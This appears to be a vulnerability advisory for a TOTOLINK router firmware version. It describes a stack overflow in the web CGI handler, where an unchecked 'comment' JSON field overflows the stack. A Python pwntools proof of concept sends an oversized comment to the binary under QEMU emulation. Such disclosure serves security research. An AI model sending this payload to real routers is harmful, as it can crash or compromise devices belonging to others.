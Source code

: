 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=2
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## Affected version

V4.3.0cu.7647_B20210106

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_004196c8` (at address 0x04196c8) gets the JSON parameter `comment`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/1.png" alt="1.png" style="zoom:50%;" />

<img src="img/2.png" alt="2.png" style="zoom:50%;" />

## POC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setMacFilterRules",
    "addEffect": "0",
    "macAddress": "A:A:A:A",
    "comment": "A"*0x200,
}
data = json.dumps(data)
print(data)

argv = [
    "qemu-mips-static",
    "-g", "1234",
    "-L", "./lib",
    "-E", "LD_PRELOAD=./hook.so",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)

a.sendline(data.encode())

a.interactive()
```

